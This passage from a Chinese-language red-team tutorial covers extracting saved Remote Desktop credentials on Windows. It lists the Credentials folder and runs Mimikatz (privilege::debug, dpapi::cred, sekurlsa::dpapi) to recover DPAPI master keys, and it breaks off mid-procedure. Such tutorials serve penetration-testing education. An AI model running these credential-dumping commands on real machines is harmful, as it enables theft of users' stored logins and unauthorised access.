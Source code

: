   
（3）  
PowerShell下查看  
保存的凭据  
  
  
dir /a "%userprofile%\AppData\Local\Microsoft\Credentials\*"  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEt9iafqp8b6hCIjcNO1iaImtOQqzlbfsKD4iclYfSAXW4t64hG3MEJUDmz7r9agb239TdmD2773DMqA/640?wx_fmt=png "")  
  
  
### 1.2.2使用 Mimikatz 导出远程桌面连接凭据      
  
  
1.获取  
guidMasterKey  
  
  
（1）mimikatz  
  
  
（2）  
privilege::debug  
  
      
  
  
（3）dpapi::cred /in:C:\Users\36502\AppData\Local\Microsoft\Credentials\1A5A322625F3341E03935748DAA118C3  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEt9iafqp8b6hCIjcNO1iaImtjsRT6tw2BiaxcQ2zbosUBchglpfOfw2jottOfUBZdrhqkZlDu6aKicgQ/640?wx_fmt=png "")  
  
  
  
  
也可以一句话直接执行：  
  
  
mimikatz # mimikatz.exe "privilege::debug" "dpapi::cred /in:C:\Users\36502\AppData\Local\Microsoft\Credentials\1A5A322625F3341E03935748DAA118C3"  
  
  
{778f9b6e-31d1-4c55-9b6e-5360aed0bf38}  
  
  
说明凭据文件是通过dir /a "%userprofile%\AppData\Local\Microsoft\Credentials\*"获取的。  
  
  
记录  
guidMasterKey：  
{778f9b6e-31d1-4c55-9b6e-5360aed0bf38}  
  
  
2.获取  
MasterKey  
  
  
（1）  
privilege::debug  
  
      
  
  
（2）sekurlsa::dpapi  
  